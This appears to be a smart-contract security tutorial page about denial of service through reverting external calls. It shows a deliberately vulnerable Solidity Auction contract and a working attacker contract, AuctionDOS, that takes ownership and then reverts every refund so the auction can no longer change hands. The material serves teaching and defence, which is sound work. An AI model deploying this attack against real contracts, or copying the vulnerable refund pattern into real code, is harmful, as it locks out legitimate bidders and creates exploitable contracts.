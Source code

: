 # ⏪ External Call Reverts DoS

External calls can cause the contract to be vulnerable to DoS attacks. To better explain how can this be possible, consider the following simplified Auction contract:
```solidity
contract Auction {

  address public currentOwner;
  uint public currentBid;

  constructor() payable {
    currentOwner = msg.sender;
    currentBid = msg.value;
  }

  receive() external payable {
    require(msg.value > currentBid);
    payable(currentOwner).call{msg.value}("");
    currentOwner = msg.sender;
    currentBid = msg.value;
  }
}
```

For anyone to be a new owner of the Auction, he needs to send an amount of ether greater than the current price (which is set by the `currentOwner`).<br />
To prevent someone else from being a new owner (even if he has more ether than the current price), we can perform a DS attack into the contract by creating a malicious contract that we register as the `currentOwner` (by sending ether greater than the current price of course) and reverts the transaction whenever it receives ether. So, when a new address attempts to be a new owner (the `currentOwner` is our malicious contract), the transaction will revert, hence the `newOwner` will not be set anymore.<br />
Below is an example of a Malicious contract that can perform a DoS attack on the Auction contract:

```solidity
contract AuctionDOS {

    constructor(address payable _auction) payable {
        uint currentBid = Auction(_auction).currentBid();
        require(msg.value > currentBid, "You need to send more ether to be the currentOwner");

        // we register the contract as the currentOwner
        (bool success,) = _auction.call{value: msg.value}("");
        
        require(success, "Failed to register as currentOwner");
    }

    receive() external payable {
        // the contract will revert the transaction whenever there is an attempt to change the currentOwner
        revert("newOwner can not be set anymore x)");
    }
}
```